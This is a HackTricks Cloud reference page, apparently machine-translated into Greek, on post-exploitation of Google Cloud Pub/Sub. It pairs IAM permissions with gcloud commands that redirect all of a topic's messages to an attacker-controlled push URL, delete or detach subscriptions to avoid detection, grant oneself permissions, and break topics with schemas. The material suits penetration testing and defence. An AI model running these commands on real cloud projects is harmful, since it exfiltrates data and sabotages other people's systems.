 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pub/Sub

Για περισσότερες πληροφορίες σχετικά με το Pub/Sub, ελέγξτε την παρακάτω σελίδα:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Δημοσιεύστε ένα μήνυμα σε ένα θέμα, χρήσιμο για **να στείλετε απροσδόκητα δεδομένα** και να ενεργοποιήσετε απροσδόκητες λειτουργίες ή να εκμεταλλευτείτε ευπάθειες:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Χρήσιμο για να αποτρέψει μια συνδρομή από το να λαμβάνει μηνύματα, ίσως για να αποφευχθεί η ανίχνευση.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Χρήσιμο για να αποτρέψει μια συνδρομή από το να λαμβάνει μηνύματα, ίσως για να αποφευχθεί η ανίχνευση.\
Είναι δυνατόν να διαγραφεί ένα θέμα ακόμη και με συνδρομές συνδεδεμένες σε αυτό.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Χρησιμοποιήστε αυτήν την άδεια για να ενημερώσετε κάποιες ρυθμίσεις του θέματος για να το διαταράξετε, όπως `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Δώστε στον εαυτό σας άδεια να εκτελέσει οποιαδήποτε από τις προηγούμενες επιθέσεις.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Λάβετε όλα τα μηνύματα σε έναν διακομιστή ιστού:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Δημιουργήστε μια συνδρομή και χρησιμοποιήστε την για να **τραβήξετε μηνύματα**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Η διαγραφή μιας συνδρομής** θα μπορούσε να είναι χρήσιμη για να διαταράξει ένα σύστημα επεξεργασίας καταγραφών ή κάτι παρόμοιο:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Χρησιμοποιήστε αυτήν την άδεια για να ενημερώσετε κάποιες ρυθμίσεις ώστε τα μηνύματα να αποθηκεύονται σε ένα μέρος που μπορείτε να έχετε πρόσβαση (URL, πίνακας Big Query, Bucket) ή απλώς για να το διαταράξετε.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Δώστε στον εαυτό σας τις άδειες που χρειάζεστε για να εκτελέσετε οποιαδήποτε από τις προηγουμένως σχολιασμένες επιθέσεις.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Επιτεθείτε σε ένα σχήμα σε ένα θέμα ώστε τα μηνύματα να μην το πληρούν και επομένως το θέμα να διαταραχθεί.\
Αν δεν υπάρχουν σχήματα, ίσως χρειαστεί να δημιουργήσετε ένα.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Αυτό μπορεί να φαίνεται σαν να διαγράφετε ένα σχήμα, αλλά θα μπορείτε να στείλετε μηνύματα που δεν πληρούν το σχήμα. Ωστόσο, καθώς το σχήμα θα διαγραφεί, κανένα μήνυμα δεν θα εισέλθει πραγματικά μέσα στο θέμα. Έτσι, αυτό είναι **ΑΧΡΗΣΤΟ**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Δώστε στον εαυτό σας τις άδειες που χρειάζεστε για να εκτελέσετε οποιαδήποτε από τις προηγουμένως σχολιασμένες επιθέσεις.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Αυτό θα δημιουργήσει ένα στιγμιότυπο όλων των μηνυμάτων που δεν έχουν επιβεβαιωθεί και θα τα επιστρέψει στη συνδρομή. Όχι πολύ χρήσιμο για έναν επιτιθέμενο, αλλά εδώ είναι:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
